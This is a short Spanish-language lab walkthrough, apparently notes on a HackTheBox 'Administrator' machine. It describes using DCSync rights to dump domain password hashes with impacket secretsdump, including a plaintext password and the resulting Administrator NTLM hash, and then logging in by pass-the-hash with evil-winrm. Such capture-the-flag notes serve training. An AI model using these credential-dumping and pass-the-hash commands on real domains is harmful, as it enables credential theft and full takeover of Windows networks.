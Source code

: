 #getchangesall

-------

Marcamos que somos owner del usuario *Ethan* y en *First Degree Object Control* nos aparece que podemos pasar al usuario *administrator* abusando de los privilegios. [[DcSync]] [[GetChanges]] o [[GetchangesAll]] . El ultimo permiso que falta en help decia que estaba bug
![[Administrator50.png]]

![[Administrator51.png]]
Nos dice que podemos usar [[impacket-secretsdump]] con el comando `secretsdump.py 'administrator.htb'/'ethan':'limpbizkit'@'administrator.htb'`

![[Imagenes/Administrator52.png]]
Nos da los hashes de todos los usuarios, a nosotros nos interesa solo el del usuario *Administrator* y solamente vamos a tomar todo lo que viene despues de los ultimos *:*
```
3dc553ce4b9fd20bd016e098d2d2fd2e
```

Ahora nos conectamos con [[evil-winrm]] usamos `evil-winrm -u administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e' -i 10.129.112.167`